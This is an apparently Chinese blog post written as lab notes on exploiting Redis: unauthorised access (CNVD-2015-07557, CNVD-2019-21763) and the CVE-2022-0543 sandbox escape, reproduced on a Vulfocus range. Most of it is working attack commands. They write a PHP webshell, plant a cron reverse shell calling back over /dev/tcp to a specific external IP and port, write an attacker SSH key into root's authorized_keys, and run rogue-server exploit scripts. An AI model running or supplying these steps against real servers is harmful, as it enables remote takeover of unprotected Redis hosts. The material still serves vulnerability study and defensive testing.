

# Redis 漏洞总结--未授权--沙箱绕过--(CNVD-2015-07557)&&(CNVD-2019-21763)&&(CVE-2022-0543) - 了了青山见 - 博客园

> 原文：[`www.cnblogs.com/Pengj/p/17718805.html`](https://www.cnblogs.com/Pengj/p/17718805.html)

# Redis 未授权--沙箱绕过--(CNVD-2015-07557)&&(CNVD-2019-21763)&&(CVE-2022-0543)

## 环境复现

采用 Vulfocus 靶场进行环境复现，官网 docker 搭建有问题，具体搭建教程参考[vulfocus 不能同步的解决方法/vulfocus 同步失败](https://blog.csdn.net/m0_64563956/article/details/131229046)

## CNVD-2015-07557 未授权访问

### 影响版本

Redis <= 5.0.5

### 漏洞探测

使用端口扫描工具等探测到目标主机使用了 Redis 服务
对于 Redis 服务的未授权访问，首先需要确认 Redis 未授权是否存在，使用 Redis 数据库客户端进行连接测试，如何没有密码，即未授权漏洞存在。
客户端连接工具[Another Redis Desktop Manager](https://goanother.com/cn/)
具体表现如下


### 漏洞利用

漏洞利用有三种利用方式，每种方式都有限制条件，本质就是使用 Redis 数据库操作语句在目标主机进行写入文件。

*   写入 Webshell
    利用条件：Web 目录权限可读写

```
config set dir /tmp            #设置 WEB 写入目录
config set dbfilename 1.php    #设置写入文件名
set test "<?php phpinfo();?>"  #设置写入文件代码
bgsave                         #保存执行
save                           #保存执行 
```

注意：部分没目录权限读写权限

*   写定时任务反弹 shell
    利用条件：Redis 服务使用 ROOT 账号启动，安全模式 protected-mode 处于关闭状态，centos 会忽略乱码去执行格式正确的任务计划 ，而 ubuntu 并不会忽略这些乱码，所以导致命令执行失败

```
config set dir /var/spool/cron
set yy "\n\n\n* * * * * bash -i >& /dev/tcp/47.94.236.117/5555 0>&1\n\n\n"
config set dbfilename x
save 
```

*   写入 ssh-key 公钥
    利用条件：Redis 服务使用 ROOT 账号启动，安全模式 protected-mode 处于关闭状态
    允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器

```
cd /root/.ssh/
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
cat key.txt | redis-cli -h 目标 IP -x set xxx
//以上步骤在自己的攻击机器上执行
config set dir /root/.ssh/
config set dbfilename authorized_keys
save
cd /root/.ssh/
ssh -i id_rsa root@目标 IP 
```

详细利用步骤可参考[Redis 未授权访问漏洞复现与利用](https://www.cnblogs.com/bmjoker/p/9548962.html)

*   自动化脚本
    下载地址[Redis Rogue Server](https://github.com/n0b0dyCN/redis-rogue-server)
    使用方法:

```
python redis-rogue-server.py --rhost 目标 IP --rport 目标端口 --lhost IP 
```

该脚本需要运行在 VPS 上，脚本运行后，目标主机会向攻击机回传信息。

## CNVD-2019-21763 未授权访问

### 影响版本

Redis 2.x，3.x，4.x，5.x
由于在 Reids 4.x 及以上版本中新增了模块功能，攻击者可通过外部拓展，在 Redis 中实现一个新的 Redis 命令。攻击者可以利用该功能引入模块，在未授权访问的情况下使被攻击服务器加载恶意.so 文件，从而实现远程代码执行

### 漏洞利用

*   自动化脚本
    同上

## 沙箱绕过 CVE-2022-0543

### 影响版本

Debian 系的 Linux 发行版本 + Ubuntu

CVE-2022-0543 该 Redis 沙盒逃逸漏洞影响 Debian 系的 Linux 发行版本,并非 Redis 本身漏洞, 漏洞形成原因在于系统补丁加载了一些 redis 源码注释了的代码

### 漏洞利用

*   自动化脚本
    [redis-rogue-getshell](https://github.com/vulhub/redis-rogue-getshell) 
    使用方法:

```
python3 redis-master.py -r 目标 IP -p 目标端口 -L 攻击 IP -P 8888 -f RedisModulesSDK/exp.so -c "id" 
```

以上内容仅作学习记录，如有错误或瑕疵，欢迎批评指正，感谢阅读。